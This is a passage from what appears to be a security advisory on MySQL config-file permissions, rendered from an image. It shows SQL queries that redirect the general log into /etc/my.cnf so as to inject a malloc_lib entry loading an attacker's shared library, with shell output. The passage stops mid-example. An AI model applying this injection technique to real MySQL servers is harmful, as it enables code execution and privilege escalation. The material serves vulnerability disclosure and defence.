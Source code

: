 ~~~~~~~~~~~~~~~~~~~~~~~~~
or /etc/my.cnf to mysql user.

For example:

says:

"Lock down permissions on config file(s) 

chown mysql /etc/my.cnf
chmod 600 /etc/my.cnf"

Whereas the article at:

mentions:

"You should also protect the global option file, /etc/my.cnf, if it exists. 
The mysql user should own it and have read/write access to it, but other users 
need only read access:

shell> chown mysql /etc/my.cnf"

Moreover, there are also MySQL recipes for installation automation software 
such as Chef that also provide users with vulnerable permissions on my.cnf 
config files.

If any of the MySQL config files is owned by mysql user, an attacker could
append malicious config entries to it as follows:

root@debian:~/# ls -l /etc/my.cnf 
-rw-r--r-- 1 mysql mysql 72 Jul 28 17:20 /etc/my.cnf

root@debian:~/# cat /etc/my.cnf 

[mysqld]

key_buffer              = 16M
max_allowed_packet      = 16M


Attacker could run the following SQL queries:

mysql> set global general_log_file = '/etc/my.cnf';
mysql> set global general_log = on;
mysql> select '
    '> 
    '> ; injected config entry
    '> 
    '> [mysqld]
    '> malloc_lib=/tmp/mysql_exploit_lib.so
    '> 
    '> [separator]
    '> 
    '> ';
1 row in set (0.00 sec)
mysql> set global general_log = off;

The resulting config would then have the following part appended:

root@debian:~/# cat /etc/my.cnf 

[mysqld]

key_buffer              = 16M
~~~~~~~~~~~~~~~~~~~~~~~~~